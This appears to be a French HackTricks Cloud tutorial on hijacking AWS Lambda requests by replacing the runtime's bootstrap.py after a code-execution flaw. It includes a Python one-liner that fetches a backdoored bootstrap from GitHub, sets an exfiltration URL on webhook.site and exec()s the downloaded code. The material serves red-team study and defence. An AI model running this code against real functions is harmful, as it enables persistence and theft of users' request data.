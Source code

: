 # AWS - Voler les requêtes Lambda

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert en équipe rouge AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>

## Flux Lambda

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** est un processus en dehors du conteneur qui **envoie** des **invocations** au processus **init**.
2. Le processus init écoute sur le port **9001** en exposant quelques points d'extrémité intéressants :
* **`/2018-06-01/runtime/invocation/next`** – obtenir l'événement d'invocation suivant
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – renvoyer la réponse du gestionnaire pour l'invocation
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – renvoyer une erreur d'exécution
3. **bootstrap.py** a une boucle qui récupère les invocations du processus init et appelle le code des utilisateurs pour les gérer (**`/next`**).
4. Enfin, **bootstrap.py** envoie la **réponse** à init.

Notez que bootstrap charge le code utilisateur en tant que module, donc toute exécution de code effectuée par le code utilisateur se produit en réalité dans ce processus.

## Voler les requêtes Lambda

L'objectif de cette attaque est de faire exécuter au code utilisateur un processus malveillant **`bootstrap.py`** à l'intérieur du processus **`bootstrap.py`** qui gère la requête vulnérable. Ainsi, le processus **bootstrap malveillant** commencera à **communiquer avec le processus init** pour gérer les requêtes tandis que le **bootstrap légitime** est **piégé** en exécutant le malveillant, donc il ne demandera pas de requêtes au processus init.&#x20;

Il est facile d'accomplir cette tâche car le code de l'utilisateur est exécuté par le **`bootstrap.py`** légitime. Ainsi, l'attaquant pourrait :

* **Envoyer un faux résultat de l'invocation actuelle au processus init**, de sorte que init pense que le processus bootstrap attend plus d'invocations.
* Une requête doit être envoyée à **`/${invoke-id}/response`**&#x20;
* L'invoke-id peut être obtenu à partir de la pile du **`bootstrap.py`** légitime en utilisant le module python [**inspect**](https://docs.python.org/3/library/inspect.html) (comme [proposé ici](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) ou simplement en le demandant à nouveau à **`/2018-06-01/runtime/invocation/next`** (comme [proposé ici](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Exécuter un **`bootstrap.py`** malveillant qui gérera les prochaines invocations
* Pour des raisons de discrétion, il est possible d'envoyer les paramètres d'invocation Lambda à un C2 contrôlé par les attaquants, puis de gérer les requêtes comme d'habitude.
* Pour cette attaque, il suffit d'obtenir le code original de **`bootstrap.py`** à partir du système ou de [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), ajouter le code malveillant et l'exécuter à partir de l'invocation Lambda actuelle.

### Étapes de l'attaque

1. Trouver une vulnérabilité **RCE**.
2. Générer un **bootstrap** **malveillant** (par exemple [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Exécuter** le bootstrap malveillant.

Vous pouvez facilement effectuer ces actions en exécutant :
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Pour plus d'informations, consultez [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Références

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks:

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
